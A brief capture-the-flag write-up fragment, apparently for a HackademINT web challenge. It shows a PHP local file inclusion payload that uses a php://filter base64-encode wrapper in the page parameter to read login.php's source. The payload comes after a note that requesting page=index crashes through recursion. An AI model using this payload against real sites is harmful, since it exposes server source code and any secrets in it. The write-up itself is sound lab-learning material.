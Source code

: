 php filters !!
_http://challs2.hackademint.org:13402_?page=index
=> crash because infinite recursion

Instead, we can b64 encore the page (wrappers/filters are allowed) and avoid the loop
_http://challs2.hackademint.org:13402_?page=php://filter/read=convert.base64-encode/resource=login.php
